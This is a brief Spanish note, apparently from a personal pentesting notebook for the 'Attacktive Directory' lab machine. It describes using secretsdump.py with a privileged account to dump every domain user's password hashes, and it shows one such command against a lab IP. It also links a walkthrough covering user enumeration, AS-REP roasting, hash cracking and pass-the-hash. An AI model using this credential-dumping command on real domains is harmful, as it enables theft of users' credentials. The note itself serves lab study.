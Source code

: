 Esta herramienta sirve para dumpear los hashes de todos los usuarios del dominio utilizando las credenciales de un usuario y contraseña que tengan el permiso para ello
# Ejemplo secretdumps
```
secretsdump.py -just-dc backup@10.10.143.170
```
![[Pasted image 20240717113907.png]]
[[MAQUINA ATTACKTIVE DIRECTORY(enum4linux, kerbrute enumerar usuarios, ASREPRoasting obtener TGT, john the ripper, smbclient para listar recursos compartidos, secredump dumpear hashes y pass the hash)]]